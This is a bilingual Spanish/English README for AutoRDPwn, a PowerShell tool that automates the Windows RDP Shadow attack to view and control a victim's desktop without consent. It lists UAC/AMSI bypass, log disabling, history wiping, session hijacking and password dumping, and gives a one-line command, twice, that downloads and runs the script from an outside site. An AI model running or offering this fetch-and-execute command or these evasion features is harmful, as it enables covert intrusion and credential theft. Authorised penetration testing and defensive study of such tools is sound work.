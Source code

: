 
![AutoRDPwn](https://user-images.githubusercontent.com/34335312/45109339-8b203580-b13f-11e8-9de7-1210114313bb.png)



**AutoRDPwn** es un script creado en Powershell y diseñado para automatizar el ataque **Shadow** en equipos Microsoft Windows. Esta vulnerabilidad permite a un atacante remoto visualizar el escritorio de su víctima sin su consentimiento, e incluso controlarlo a petición. Para su correcto funcionamiento, es necesario cumplir los requisitos que se describen en la guía de uso.


# Requisitos
Powershell 5.0 o superior


# Cambios

## Versión 4.5
• Nuevo icono estilo ninja!

• Limpieza automática del historial de Powershell tras la ejecución

• Ahora todas las dependencias se descargan del mismo repositorio

• Muchos errores y bugs corregidos

• Bypass de UAC & AMSI en sistemas de 64 bits

• Nuevo módulo disponible: Remote Desktop Forensics

• Nuevo módulo disponible: Desactivar logs del sistema (Invoke-Phant0m)

• Nuevo módulo disponible: Sticky Keys Hacking

• Nuevo módulo disponible: Local Port Forwarding

• Nuevo ataque disponible: Session Hijacking (sin contraseña)

**ATENCIÓN!** Este ataque es muy intrusivo y solo puede utilizarse localmente

*El resto de cambios se pueden consultar en el fichero CHANGELOG


# Uso
Esta aplicación puede usarse de forma local, remota o para pivotar entre equipos. 
Gracias a los módulos adicionales, es posible volcar hashes y contraseñas o incluso recuperar el histórico de conexiones RDP.

**Ejecución en una línea:**

powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"

**La guía detallada de uso se encuentra en el siguiente enlace:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Capturas de pantalla
![autordpwn_esp1](https://user-images.githubusercontent.com/34335312/48354341-be2bfb80-e691-11e8-9d37-f88639592482.PNG)
![autordpwn_esp2](https://user-images.githubusercontent.com/34335312/48354342-be2bfb80-e691-11e8-95fb-421064656516.PNG)


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
• **Mark Russinovich** por su herramienta PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• **HarmJ0y & Matt Graeber** por su script Get-System -> https://github.com/HarmJ0y/Misc-PowerShell

• **Stas'M Corp.** por su herramienta RDP Wrapper -> https://github.com/stascorp/rdpwrap

• **Kevin Robertson** por su script Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• **Benjamin Delpy** por su herramienta Mimikatz -> https://github.com/gentilkiwi/mimikatz

• **Halil Dalabasmaz** por su script Invoke-Phant0m -> https://github.com/hlldz/Invoke-Phant0m


# Contacto
Este software no ofrece ningún tipo de garantía. Su uso es exclusivo para entornos educativos y/o auditorías de seguridad con el correspondiente consentimiento del cliente. No me hago responsable de su mal uso ni de los posibles daños causados por el mismo.

Para más información, puede contactar a través de info@darkbyte.net

-------------------------------------------------------------------------------------------------------------
# English description

**AutoRDPwn** is a script created in Powershell and designed to automate the **Shadow** attack on Microsoft Windows computers. This vulnerability allows a remote attacker to view his victim's desktop without his consent, and even control it on request. For its correct operation, it is necessary to comply with the requirements described in the user guide.


# Requirements
Powershell 5.0 or higher


# Changes
## Version 4.5
• New ninja style icon!

• Automatic cleaning of Powershell history after execution

• Now all dependencies are downloaded from the same repository

• Many errors and bugs fixed

• UAC & AMSI bypass in 64-bit systems

• New module available: Remote Desktop Forensics

• New module available: Disable system logs (Invoke-Phant0m)

• New module available: Sticky Keys Hacking

• New available module: Local Port Forwarding

• New available attack: Session Hijacking (passwordless)

**WARNING!** This attack is very intrusive and can only be used locally

*The rest of the changes can be consulted in the CHANGELOG file


# Use
This application can be used locally, remotely or to pivot between computers. Thanks to the additional modules, it is possible to dump hashes and passwords or even recover the history of RDP connections.


**One line execution:**

powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"

**The detailed guide of use can be found at the following link:**

https://darkbyte.net/autordpwn-la-guia-definitiva

# Screenshots
![autordpwn_eng1](https://user-images.githubusercontent.com/34335312/48354339-be2bfb80-e691-11e8-8a95-b45823b97f82.PNG)
![autordpwn_eng2](https://user-images.githubusercontent.com/34335312/48354340-be2bfb80-e691-11e8-9037-9156ac0715a2.PNG)


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
• **Mark Russinovich** for his tool PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• **HarmJ0y & Matt Graeber** for his script Get-System -> https://github.com/HarmJ0y/Misc-PowerShell

• **Stas'M Corp.** for its RDP tool Wrapper -> https://github.com/stascorp/rdpwrap

• **Kevin Robertson** for his script Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• **Benjamin Delpy** for his tool Mimikatz -> https://github.com/gentilkiwi/mimikatz

• **Halil Dalabasmaz** for his script Invoke-Phant0m -> https://github.com/hlldz/Invoke-Phant0m


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can contact through info@darkbyte.net
